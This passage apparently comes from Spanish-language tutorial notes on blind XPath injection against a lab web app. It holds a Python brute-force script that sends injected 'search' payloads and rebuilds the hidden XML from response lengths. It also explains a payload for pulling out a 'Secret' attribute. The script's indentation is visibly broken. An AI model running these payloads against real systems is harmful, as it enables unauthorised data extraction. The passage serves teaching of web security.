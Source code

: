 ```python
def xPathInjection():

    data = ''
    
    p1 = log.progress("Fuerza bruta")
    p1.status("Inciando ataque de fuerza bruta")

    time.sleep(2)

    p2 = log.progress("Data")
    for attr in range(1,20):
        for position in range(1, 7):
            for character in characters:

                    post_data = {
		                'search': "1' and substring(name(/*[1]/*[1]/*[%d]),%d,1)='%s" % (attr, position, character),
                        'submit': ''
                     }
 
                     r = requests.post(main_url, data=post_data)
 
                     if len(r.text) != 8691:
                           data += character
                           p2.status(data)
                           break
         data+= ":"
 
     p1.success("Ataque de fuerza bruta concluido")
     p2.success(data)
             
 if __name__ == '__main__':
 
     xPathInjection()
```

==Recordemos que toda la información que consigamos tenemos que representarla en nuestro archivo data.xml para que vayamos viendo la replica exacta del XML==.

### Identificando el contenido de los atributos dentro de las Sub-Etiquetas/Etiquetas-secundarias

Para poder identificar el contenido de un atributo en particular, por ejemplo el atributo *Secret* que creamos nosotros, lo que debemos hacer es lo siguiente

- ``1' and substring(Secret,1,1)='E``

En este caso como nosotros ya conocemos que existe el campo *Secret*, al colocar ``1'`` al comienzo **ya estamos haciendo alusión a la primera Sub-Etiqueta llamada "Coffee"**, porque el identificador (``ID=1``) "*1*" está dentro de la primer Sub-Etiqueta que corresponde al **Café Affogato**. Si nosotros colocáramos un ``2'`` al comienzo, **estaríamos haciendo alusión a la segunda Sub-Etiqueta**, por lo tanto la web **no nos daría información** ya que **no existe** el atributo *Secret* en esa etiqueta.
